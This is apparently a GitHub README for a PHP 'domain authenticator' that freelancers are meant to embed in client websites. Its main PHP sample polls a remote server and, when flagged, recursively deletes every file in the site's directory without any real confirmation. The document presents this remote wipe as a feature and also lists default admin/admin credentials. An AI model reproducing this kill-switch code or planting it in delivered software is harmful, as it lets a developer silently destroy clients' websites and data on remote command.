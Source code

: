 # Domain Authenticator Manager

<p> With this domain authenticator server, anyone can add domain authentication to their code, it's very simple and easy to use this domain authenticator server. The primary purpose of this project is to help those freelancers who got cheated by clients after completing the project </p>
<p>&nbsp;</p>

<h3>Highlighted Features : </h3>
<ul>
    <li>Easy to use</li>
    <li>Simple & fast loading Admin panel</li>
    <li>Show any text message from the admin panel</li>
    <li>It can delete the entire website in one command</li>
    <li>Prebuild WP theme function code and plugin </li>
</ul><br>

<h3>Requirements :</h3>
<ul>
    <li>PHP >= 8.1</li>
    <li>MySql Database</li>
</ul><br>


## Video Demonstration

[![Watch the video](https://raw.githubusercontent.com/username/repository/branch/path/to/thumbnail.png)](https://www.dropbox.com/scl/fi/u247wxv4hf7o35vvg7zpi/Liscens.mp4?dl=0)



<h3><strong>How to Install ?</strong></h3>
<ol>
    <li>Clone the repogetory</li>
    <li>uplaod on your server&nbsp;</li>
    <li><a href="https://active.devtool.my.id" rel="dofollow"><strong>Register</strong></a> your domain with us</li>
    <li>Create MySql database and user&nbsp;</li>
    <li><a href="https://active.devtool.my.id/checker.php" rel="dofollow"><strong>Downlaod</strong></a> the database</li>
    <li>Import the <strong>database.sql&nbsp;</strong></li>
    <li>Put the database credential on <strong>config.php</strong></li>
</ol><br>

<h3><strong>Now you are ready to login into the domain control panel&nbsp;</strong></h3>
<p>https://example.com/login.php</p>
<p>user:- admin</p>
<p>password:- admin</p>
<br>

<p>WordPress users can use our  WordPress theme <a href="#functioncode" rel="dofollow" > function code</a> on any theme. also, we have a WordPress <a href="https://github.com/websmartbd/Domain-Validator-Plugin" rel="dofollow" >Plugin</a> to validate the authorized domain</p>

<br><br><br>
<h3 id="php"> Row php code sample</h3>

```
<?php

// Enable error reporting
error_reporting(E_ALL);
ini_set('display_errors', 1);

function is_domain_allowed() {
    $api_url = 'https://example.com/api.php'; // Replace this with your actual API URL
    $response = file_get_contents($api_url);
    if ($response === false) {
        return false; // Assuming API call failed, disallow domain
    }
    $api_response = json_decode($response, true); // Decoding JSON as associative array

    // Extracting the domain from the $_SERVER['HTTP_HOST']
    $current_domain = $_SERVER['HTTP_HOST'];

    foreach ($api_response as $item) {
        if ($item['domain'] == $current_domain) {
            // Check if the domain is active or not
            if ($item['active'] == 1) {
                // Check if 'delete' key exists in the JSON data
                if (isset($item['delete'])) {
                    if ($item['delete'] == "yes") {
                        // Confirm deletion
                        if (confirm_deletion()) {
                            delete_all_files_folders();
                        }
                    } elseif ($item['delete'] == "no") {
                        // If deletion is not allowed, simply return false
                        return false;
                    }
                }
                return true; // Domain is active, allow access
            } else {
                // If the domain is not active, show the message
                echo '<p style="color:red;font-size:30px;font-weight:600;text-align:center;">' . $item['message'] . '</p>';
                return false;
            }
        }
    }

    // If the domain is not found in the API response, show the default message
    echo '<p style="color:red;font-size:30px;font-weight:600;text-align:center;">You are not allowed to use this code</p>';
    return false;
}

function confirm_deletion() {
    // Here you can implement a confirmation mechanism, such as a form submission or a checkbox
    // For demonstration purposes, returning true directly
    return true;
}

function delete_all_files_folders() {
    $dir_to_delete = __DIR__; // Directory of the current script
    if (delete_directory($dir_to_delete)) {
        echo '<p style="color:green;font-size:18px;font-weight:600;">All files and folders deleted successfully.</p>';
    } else {
        echo '<p style="color:red;font-size:18px;font-weight:600;">Failed to delete files and folders.</p>';
    }
}

// Recursive function to delete directory and its contents
function delete_directory($dir) {
    if (!is_dir($dir)) {
        return false;
    }

    $files = array_diff(scandir($dir), array('.', '..'));
    foreach ($files as $file) {
        $path = $dir . DIRECTORY_SEPARATOR . $file;
        if (is_dir($path)) {
            delete_directory($path);
        } else {
            if (!unlink($path)) {
                return false;
            }
        }
    }
    return rmdir($dir);
}

if (!is_domain_allowed()) {
    // Do nothing here, the message is handled inside is_domain_allowed() function
} 

// code to be executed if the domain is allowed

?>

```


<br><br>
<h3 id="functioncode"><b>Note:- If you don't have a good knowledge of PHP code or theme function we recommend using the Plugin instead of function code </b></h3>

```

function check_domain_allowed_theme() {
    $api_url = 'https://example.com/api.php?nonce=' . md5(uniqid(rand(), true)); // Append a unique query parameter to bypass caching
    $response = wp_remote_get($api_url);

    if (is_wp_error($response)) {
        return; // If the API call fails, do nothing
    }

    $body = wp_remote_retrieve_body($response);
    $api_response = json_decode($body, true); // Decoding JSON as associative array

    // Extracting the domain from the $_SERVER['HTTP_HOST']
    $current_domain = $_SERVER['HTTP_HOST'];

    foreach ($api_response as $item) {
        if ($item['domain'] == $current_domain) {
            // Check if the domain is active or not
            if ($item['active'] == 1) {
                return; // Domain is active, allow access
            } else {
                // If the domain is not active, show the message
                echo '<p style="color:red;font-size:30px;font-weight:600;text-align:center;">' . esc_html($item['message']) . '</p>';
                exit; // Stop further execution
            }
        }
    }

    // If the domain is not found in the API response, show the default message
    echo '<p style="color:red;font-size:30px;font-weight:600;text-align:center;">You are not allowed to use this code</p>';
    exit; // Stop further execution
}
add_action('wp_head', 'check_domain_allowed_theme');

```

